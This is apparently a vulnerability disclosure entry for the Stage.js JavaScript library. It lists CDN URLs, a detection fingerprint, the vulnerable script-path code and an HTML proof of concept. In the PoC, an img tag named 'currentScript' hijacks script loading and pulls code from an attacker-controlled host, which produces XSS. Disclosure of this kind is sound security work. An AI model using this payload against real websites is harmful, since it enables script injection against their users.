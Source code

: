 ## Stage.js

### Meta

+ Library: Stage.js
+ Stars: 2.4K
+ Version: v1-alpha
+ Fingerprint: `typeof Stage !== 'undefined' && typeof Stage.create === 'function'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://cdn.jsdelivr.net/npm/stage-js@1.0.0-alpha.4/+esm`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.min.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.min.js`

### Vulnerable Code Snippet

```javascript
  function getScriptSrc() {
    // HTML5
    if (document.currentScript) {
      return document.currentScript.src;
    }
```

```javascript
  return function(url) {
    if (/^\.\//.test(url)) {
      var src = getScriptSrc();
      var base = src.substring(0, src.lastIndexOf('/') + 1);
      url = base + url.substring(2);
      // } else if (/^\.\.\//.test(url)) {
      // url = base + url;
    }
    return url;
  };
```

## PoC

```html
<!--Library-->
<script src="https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js" integrity="sha512-rA/8kCbIrzxcXW6akXAiN6FnpM+VW2iv9Zzw4ghu5Mt7xDobt3oraMSDxDeqq4kSUkaTBVdNOy1iyEyFhmceCw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>

<script>
Stage.preload('./a.js')
</script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```